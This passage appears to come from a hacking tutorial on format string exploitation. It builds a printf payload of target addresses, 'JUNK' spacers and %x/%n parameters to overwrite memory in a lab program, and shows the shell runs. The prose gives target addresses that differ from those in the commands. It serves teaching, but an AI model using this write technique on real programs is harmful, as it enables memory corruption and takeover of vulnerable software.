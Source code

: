 Now for the next write. Another argument is needed for another __%x__ format parameter to increment the byte count to _187_, which is _0xBB_ in decimal. This argument could be anything; it just has to be four bytes long and must be located after the first arbitrary memory address of _0x08049754_. Since this is all still in the memory of the format string, it can be easily controlled. The word _JUNK_ is four bytes long and will work fine.

After that, the next memory address to be written to, _0x08049755_, should be put into memory so the second __%n__ format parameter can access it. This means the beginning of the format string should consist of the target memory address, four bytes of junk, and then the target memory address plus one. But all of these bytes of memory are also printed by the format function, thus incrementing the byte counter used for the __%n__ format parameter. This is getting tricky.

Perhaps we should think about the beginning of the format string ahead of time. The goal is to have four writes. Each one will need to have a memory address passed to it, and among them all, four bytes of junk are needed to properly increment the byte counter for the __%n__ format parameters. The first __%x__ format parameter can use the four bytes found before the format string itself, but the remaining three will need to be supplied data. For the entire write procedure, the beginning of the format string should look like this:

<div align="left" width="100%">
<img src="Format_String_Memory.png?raw=true" alt="Format String Memory" width="100%">
</div>

<pre style="color: white;">
reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\x94\x97\x04\x08JUNK\x95\x97\x04\x08JUNK\x96\
x97\x04\x08JUNK\x97\x97\x04\x08")%x%x%8x%n
The right way to print user-controlled input:
??JUNK??JUNK??JUNK??%x%x%8x%n
The wrong way to print user-controlled input:
??JUNK??JUNK??JUNK??bffff3c0b7fe75fc 0
[*] test_val @ 0x08049794 = 52 0x00000034
reader@hacking:~/booksrc $ gdb -q --batch -ex "p 0xaa - 52 + 8"
$1 = 126
reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\x94\x97\x04\x08JUNK\x95\x97\x04\x08JUNK\x96\
x97\x04\x08JUNK\x97\x97\x04\x08")%x%x%126x%n
The right way to print user-controlled input:
??JUNK??JUNK??JUNK??%x%x%126x%n
The wrong way to print user-controlled input:
??JUNK??JUNK??JUNK??bffff3c0b7fe75fc
0
[*] test_val @ 0x08049794 = 170 0x000000aa
reader@hacking:~/booksrc $
</pre>

The addresses and junk data at the beginning of the format string changed the value of the necessary field width option for the __%x__ format parameter. However, this is easily recalculated using the same method as before. Another way this could have been done is to subtract _24_ from the previous field width value of _150_, since _6_ new _4-byte_ words have been added to the front of the format string.
